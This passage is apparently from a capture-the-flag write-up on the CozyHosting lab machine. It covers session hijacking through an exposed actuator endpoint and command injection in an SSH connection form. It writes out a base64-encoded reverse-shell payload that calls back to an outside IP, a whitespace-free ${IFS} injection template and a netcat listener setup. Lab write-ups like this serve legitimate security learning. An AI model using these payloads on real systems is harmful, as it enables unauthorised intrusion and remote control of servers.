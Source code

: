 ```/index``` displays a "Whitelable Error Page". 
![SessionCookie](sessioncookie.png)

After pasting the session cookie from ```/actuator/sessions``` onto my existing unautherises session cookie I was able to refresh the page and log in as **K. Anderson**. 

![AdminPannel](adminpan.png)

After trying a few unsuccessful attempts at adding a host to automatic patching and different ways of getting a shell there. I opened Burp to see what the form was actually doing. 

When running the connection settings form I saw that it was actually trying to execute an SSH command.

![ExecuteSSH](exesshinit.png)

After I realized it was running a command, I tried a few command injections and came back with the usage syntax for SSH verifying it was running commands in ```/bin/bash```. 

![SSHSyntax](exesshPing.png)

## Initial Foothold

My next step was to try to get a reverse shell to work. I tried a few shells and formats, but found they could not contain whitespace. I researched how to get a shell with out spaces and came across HackTricks page on [Bypassing Linux Restrictions](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions) and thier page on Linux Shells which included [Symbol Safe Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#symbol-safe-shell). 

After reading these I was able to craft the below shell. 

```;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNjIvMTIzNCAwPiYxCg=="|base64${IFS}-d|bash;``` with the encoded payload of ```bash -i >& /dev/tcp/10.10.14.162/1234 0>&1```.

**Payload**: ```bash -i >& /dev/tcp/YOUR LOCAL IP/1234 0>&1```

**Shell**: ```;echo${IFS}"BASE 64 ENCODED PAYLOAD"|base64${IFS}-d|bash;```

I used [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNjIvMTIzNCAwPiYx) to encode my payload, but it is also super helpful for decoding as well. 

![CyberChef](cyberchef.png)

Next I set up a [NetCat listener](https://blog.natem135.com/posts/using-a-netcat-listener/) on the same port as my encoded payload - port 1234. 

![NetCatListener](listener.png)

Once the listener was up and running I went back to the Connection Settings panel of CozyHosting.

So the host name should be your local IP or localhost and your username should be the entire shell from above. 
Above I also have my local IP, but found my shell worked with [localhost](https://unix.stackexchange.com/questions/184447/whats-the-difference-between-a-machines-ip-address-and-localhost) - 127.0.0.1. 

You can also do the same in Burp's Repeater, but I was having trouble getting the shell to run there.

![Base64Shell](base64shell.png)

Click "Submit" and you should have a shell!

![shell](shell.png)
```
